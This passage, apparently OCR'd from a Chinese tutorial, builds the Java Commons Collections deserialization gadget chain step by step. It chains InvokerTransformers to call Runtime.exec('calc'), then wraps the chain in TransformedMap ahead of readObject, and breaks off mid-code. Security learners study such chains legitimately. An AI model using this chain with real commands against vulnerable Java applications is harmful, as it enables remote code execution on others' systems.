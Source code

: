       ```java
      public static void main(String[] args) {
      	
          // 通过构造方法将我们需要执行命令放入Transformer[]数组中，它会把值赋值给iTransformers，然后调用它的transform方法
          //  for (int i = 0; i < iTransformers.length; i++) {
          //        object = iTransformers[i].transform(object);
          //  这里就挨个调用数组中的transform方法，这里就会等会调用的是InvokerTransformer的transform方法
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      	// 然后这里就传入一个Runtime，因为需要一个执行方法所属对象
          transformer.transform(Runtime.class);
      }
      ```

27.   **==在把map加上==**

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("key","value");
          // 调用静态方法将咋们构造好的链子放进去
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      }
      ```

28.   **==在把readObject用上==**

      ```java
      public static void main(String[] args) throws Exception {
      
          ChainedTransformer transformer = new ChainedTransformer(new Transformer[]{
              new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
              new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
              new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
          });
      
          HashMap<Object, Object> hashMap = new HashMap<>();
          hashMap.put("value","aaa");
          Map<Object,Object> decorate = TransformedMap.decorate(hashMap, null, transformer);
      